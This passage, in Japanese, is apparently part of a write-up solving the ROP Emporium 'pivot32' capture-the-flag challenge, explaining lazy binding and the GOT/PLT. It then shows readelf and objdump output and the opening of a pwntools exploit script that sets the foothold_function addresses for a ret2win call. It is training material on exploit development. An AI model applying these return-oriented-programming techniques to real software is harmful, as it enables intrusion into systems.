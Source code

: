 GOTのアドレスはPLTから実際に関数が呼ばれるまで、定まらない。

この仕組みをlazy bidingと言うらしい。

詳しい話は[こちら](https://ropemporium.com/guide.html#Appendix%20A)に載っている

さて、そうなるとfoothold_functionのGOT.PLTのアドレスと

.PLTでのアドレスを使わなければならない。

```
mizuiro@mizuiro-arch ~/P/s/r/pivot32 (main)> readelf -r ./pivot32

Relocation section '.rel.dyn' at offset 0x428 contains 2 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
08049ffc  00000606 R_386_GLOB_DAT    00000000   __gmon_start__
0804a03c  00000e05 R_386_COPY        0804a03c   stdout@GLIBC_2.0

Relocation section '.rel.plt' at offset 0x438 contains 10 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
0804a00c  00000107 R_386_JUMP_SLOT   00000000   read@GLIBC_2.0
0804a010  00000207 R_386_JUMP_SLOT   00000000   printf@GLIBC_2.0
0804a014  00000307 R_386_JUMP_SLOT   00000000   free@GLIBC_2.0
0804a018  00000407 R_386_JUMP_SLOT   00000000   malloc@GLIBC_2.0
0804a01c  00000507 R_386_JUMP_SLOT   00000000   puts@GLIBC_2.0
0804a020  00000707 R_386_JUMP_SLOT   00000000   exit@GLIBC_2.0
0804a024  00000807 R_386_JUMP_SLOT   00000000   foothold_function
0804a028  00000907 R_386_JUMP_SLOT   00000000   __libc_start_main@GLIBC_2.0
0804a02c  00000a07 R_386_JUMP_SLOT   00000000   setvbuf@GLIBC_2.0
0804a030  00000b07 R_386_JUMP_SLOT   00000000   memset@GLIBC_2.0
```



```
08048520 <foothold_function@plt>:
 8048520:       ff 25 24 a0 04 08       jmp    DWORD PTR ds:0x804a024
 8048526:       68 30 00 00 00          push   0x30
 804852b:       e9 80 ff ff ff          jmp    80484b0 <.plt>
```



```
foothold_got = 0804a024
foothold_plt = 08048520
```



一回、footholdを呼んで、そのあとに、footholdのgotのアドレスを読み込んでそこからのオフセットでret2winを呼ぶ



```python
from pwn import *

BINARY = './pivot32'

context.binary = BINARY
context.os = 'linux'
context.arch = 'i386'

binary = ELF(BINARY)
lib = ELF("libpivot32.so")

binary_rop = ROP(binary)
#address
foothold_plt = 0x08048520   # binary.symbols.plt['foothold_function'] # 0x08048520  ;objdump -d ./pivot32 | sed -n '/<uselessFunction>:/,/^$/p
foothold_got = 0x0804a024   # binary.symbols.got['foothold_function'] # 0x0804a024  ;readelf -r ./pivot32 | grep foothold
assert 0x08048520 == foothold_plt
```